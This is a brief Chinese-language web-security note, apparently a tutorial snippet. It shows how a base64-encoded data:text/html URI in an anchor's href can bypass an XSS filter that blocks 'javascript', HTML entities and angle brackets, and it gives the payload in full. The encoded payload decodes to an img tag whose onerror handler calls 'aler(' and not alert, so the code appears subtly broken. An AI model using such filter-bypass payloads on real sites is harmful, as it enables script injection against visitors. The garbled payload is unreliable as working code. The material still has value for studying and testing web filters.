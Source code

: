 base64编码可以绕过一定的过滤
假设可控点在
```html
<a href="可控点">
```
过滤了javascript，html编码，<,>那么这里就可以用base64编码了
payload如下：
```html
<a href="data:text/html;base64,PGltZyBzcmM9MSBvbmVycm9yPWFsZXIoJ+a1i+ivlScpPg==">test</a>
```
![](https://s2.ax1x.com/2019/03/16/AVoJjx.png)


![AVoyvt.png](https://s2.ax1x.com/2019/03/16/AVoyvt.png)